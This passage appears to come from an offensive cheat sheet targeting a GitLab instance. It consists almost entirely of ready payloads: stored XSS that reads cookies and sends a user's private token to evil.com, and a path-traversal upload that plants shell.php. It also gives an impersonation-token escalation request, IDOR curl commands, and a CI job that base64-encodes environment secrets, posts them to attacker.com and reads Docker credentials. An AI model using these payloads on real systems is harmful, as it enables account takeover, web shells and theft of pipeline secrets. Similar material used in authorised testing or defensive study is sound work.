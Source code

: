 ### 7. Stored XSS in Multiple Locations
```markdown
# In Wiki pages
<img src=x onerror="alert(document.cookie)">

# In issues
[Click me](javascript:alert('XSS'))

# In merge request descriptions
<script>fetch('/api/v4/user').then(r=>r.json()).then(d=>fetch('http://evil.com/'+d.private_token))</script>
```

### 8. Path Traversal in File Uploads
```bash
# Upload with directory traversal
curl -X POST http://localhost:8088/api/v4/projects/1/uploads \
  -H "PRIVATE-TOKEN: token" \
  -F "file=@shell.php" \
  -F "filename=../../../public/shell.php"
```

### 9. Privilege Escalation via Impersonation
```ruby
# Admin can impersonate users
# But impersonation tokens aren't properly restricted
POST /api/v4/users/2/impersonation_tokens
{
  "name": "evil",
  "scopes": ["api", "sudo"]
}
```

### 10. Insecure Direct Object Reference
```bash
# Access private projects
curl http://localhost:8088/api/v4/projects/1
curl http://localhost:8088/api/v4/projects/2
curl http://localhost:8088/api/v4/projects/3

# Download artifacts without auth
curl http://localhost:8088/project/repo/-/jobs/1/artifacts/download
```

## CI/CD Pipeline Attacks

### 1. Secret Extraction
```yaml
# .gitlab-ci.yml
steal_secrets:
  script:
    - echo $CI_JOB_TOKEN
    - env | base64 | curl -X POST http://attacker.com/ -d @-
    - cat ~/.docker/config.json
```
